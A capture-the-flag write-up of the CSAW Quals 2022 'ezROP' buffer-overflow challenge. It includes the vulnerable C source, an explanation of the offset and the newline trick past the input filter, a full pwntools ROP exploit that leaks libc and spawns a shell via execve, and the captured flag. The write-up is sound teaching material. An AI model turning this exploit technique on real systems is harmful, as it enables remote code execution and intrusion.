



# CSAW Quals 2022 - ezROP Writeup

# Challenge Description
```
This is a simple buffer overflow challenge, but I wrote it in a reversed way :)

$ nc pwn.chal.csaw.io 5002

Category: pwn
```
[Challenge Executable File](https://ctf.csaw.io/files/5f324cea90cc85f52ba2b38c8e7acec3/share.zip?token=eyJ1c2VyX2lkIjo3NzIsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjE4MX0.YyS7kw.uSAnR-8yZSm6O_d2SaEwoiLIr14)

# TL;DR
This is a classing **Return Oriented Programming** (ROP) challenge especially suited for first-timers in stack buffer overflow exploitation using ROP techniques. The challenge had a buffer overflow that allowed me to take control of the return address. Then I leaked address of `puts` and using that I got the coveted *libc base address*. In the next stage, all I had to do was hijack the program flow to execute `execve("bin/sh", 0, 0)` and voila! I got the shell. After that it was just a matter of reading the flag from the shell.

[The final exploit code in python](#final-exploit).

# Resources for understanding the solution
To understand how the solution works, one needs to have a solid understanding of ROP basics. To get a gentle introduction on basics of ROP, check out these two resources: [What is the GOT - CTF 101](https://ctf101.org/binary-exploitation/what-is-the-got/) & [What is ROP - CTF 101](https://ctf101.org/binary-exploitation/return-oriented-programming/). Next, when you've got a bit of hold on ROP, its time to know how one can exploit a buffer overflow vulnerability using that. Can check out [ROP Chaining: Return Oriented Programming - Red Teaming Experiments (ired.team)](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/rop-chaining-return-oriented-programming) to get a feel of this powerful exploitation technique. 

If you've gone through all these resources that I mentioned, then its time to make ur life a bit better by introducing *pwntools* using which you can easily build ROP chains and execute a successful attack without having to find and calculate all the nifty details. You'll find the *pwntools* documentation involving ROP in here: [pwntools-tutorial/rop.md (github.com)](https://github.com/Gallopsled/pwntools-tutorial/blob/master/rop.md). I'll use *pwntools* to mount the attack but I strongly recommend checking out the previous resources I mentioned to know exactly what's happening behind the scene cz *pwntools* abstracts away most of the raw and low-level technical details.

# Solution
For this challenge, we're given both the source code and the binary file. Having source code makes life a lot easier. The source code is following:

```C
#include <stdio.h>
#include <ctype.h>

int init(){
    fclose(stderr);
    setvbuf(stdin,  0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
}

int check(char *s){
    char *ptr = s;
    
    while(*ptr!=0)
    {
        if(*ptr=='\n')
        {
            *ptr = 0; break;
        }
        if(isalpha(*ptr) || *ptr==' ')
            ptr++;
        else
        {
            puts("Hey Hacker! Welcome to CSAW'22!");
            exit(1);
        }
    }
    printf("Nice to meet you, %s! Welcome to CSAW'22!\n",s);
    return 1;
}

char * str1 = "My friend, what's your name?";
void readn(char * buf, size_t len){
    if(read(0,buf,len)<=0)
        exit(1);
    return ;
}

void vul(void *buf){
    size_t rdi = 0x00000000004015a3;
    size_t rsi = rdi-2;
    size_t rop[0x100]; 
    size_t ct = 0 ; 
    memset(rop,0,sizeof(rop));

    rop[ct++] = buf+0x70; // real ret address
    rop[ct++] = rdi;
    rop[ct++] = str1;
    rop[ct++] = puts;

    rop[ct++] = rsi;
    rop[ct++] = 0x100; // rsi
    rop[ct++] = 0x999; // Pad

    rop[ct++] = rdi; 
    rop[ct++] = buf; // rdi

    rop[ct++] = readn;

    rop[ct++] = rdi;
    rop[ct++] = buf;
    rop[ct++] = check;

    rop[ct++] = 0x40152d;

    rop[0x104] = rop;
    return ;
}

int main(){
    char buf[100];
    init();
    vul(buf);
}
```
From the code, we can observe that the vulnerability is in the `vuln()` function (line no. 40) where it takes a buffer of size 100 as input but in the `readn()` function (called by`vuln()`) the length of the input to read is specified as 0x100 (256 in decimal). And thats our point of overflow. 

Next, we find the offset of return pointer using `gef`'s pattern search mechanism.





So the return pointer is just after offset 120 i.e. we need to feed 120 bytes of junk data before our actual payload. One thing we need be careful about here is that our payload will have addresses to different locations within libc which are not alphabets. In lines 24-26 (the `else` block), the code will exit if the input contains any non-alphabet character other than spaces. But we don't want the program to exit. So what do we do? We make use of the `if` condition (lines 16-18) by adding a newline after the junk input so that the `check()` function returns to the callee function.

Also while interacting with the challenge binary, care should be taken to properly read the responses before sending the payloads. Finally, we build the ROP chain, get libc leaks in first iteration and get the `execve()` call in second iteration which popped a shell.

## Final Exploit

```python
#!/usr/bin/env python3

from pwn import *

context.arch = 'amd64'
  
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
e = ELF("./ezROP")
rop = ROP(e)

offset = 119
padding = b'A' * offset + b'\x0A' # adding a newline so that the check() function doesn't exit

p = remote('pwn.chal.csaw.io', '5002')

# p = process(e.path)
# gdbscript = '''
# set follow-fork-mode child
# break *0x401533
# continue
# '''
# p = gdb.debug(e.path, gdbscript=gdbscript)

# get program response

print(p.recvuntil('?'))
p.recvline()
  
def get_address(func_name):
	FUNC_GOT = e.got[func_name]
	  
	# build rop chain to leak libc address
	rop.raw(padding)
	rop.call('puts', [FUNC_GOT])
	rop.call('main')
	
	# check rop chain
	# print(rop.dump())  
	
	# send rop chain
	p.sendline(rop.chain())  
	
	# get program response
	print(p.recvline())  
	
	# now comes the leak
	# remove trailing newline
	leak = p.recvline().rstrip(b'\n')
	leak = u64(leak.ljust(8, b'\x00'))
	
	log.info(f"Leaked libc address, {func_name}: {hex(leak)}")
	  
	# set libc base
	libc.address = leak - libc.symbols[func_name]
	
	log.info(f"libc base: {hex(libc.address)}")  


get_address("puts")

# get program response
print(p.recvline())

# build rop chain to call /bin/sh
rop2 = ROP([e, libc])  
BINSH = next(libc.search(b"/bin/sh\x00"))
rop2.raw(padding)
rop2.execve(BINSH, 0, 0)
rop2.exit() 

# send second rop chain to get the shell
p.sendline(rop2.chain())
print(p.recvline())

# the shell should be live now!
p.interactive()
```


## Flag
`flag{53bb4218b851affb894fad151652dc333a024990454a0ee32921509a33ebbeb4}`
